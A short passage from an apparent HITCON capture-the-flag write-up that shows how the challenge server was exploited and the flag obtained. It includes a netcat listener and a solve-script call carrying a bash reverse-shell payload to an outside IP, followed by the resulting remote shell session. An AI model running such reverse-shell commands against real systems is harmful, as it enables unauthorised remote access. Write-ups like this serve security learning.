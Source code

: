 Alternatively, you can spawn a reverse shell by port-forwarding `6666` and running:
```
$ nc -lvp 6666
$ python3 solve.py "bash -i >& /dev/tcp/75.188.17.80/6666 0>&1" remote
```

Ouput:
```
$ nc -lvp 6666
Listening on [0.0.0.0] (family 0, port 6666)
Connection from ec2-54-248-135-16.ap-northeast-1.compute.amazonaws.com 35300 received!
bash: cannot set terminal process group (11065): Inappropriate ioctl for device
bash: no job control in this shell
groups: cannot find name for group ID 2020
I have no name!@ip-172-31-11-96:/$ ./readflag
./readflag
hitcon{i_Am_s0_m155_s3e11sh0ck}
I have no name!@ip-172-31-11-96:/$
```

Thanks HITCON for the fun challenge!
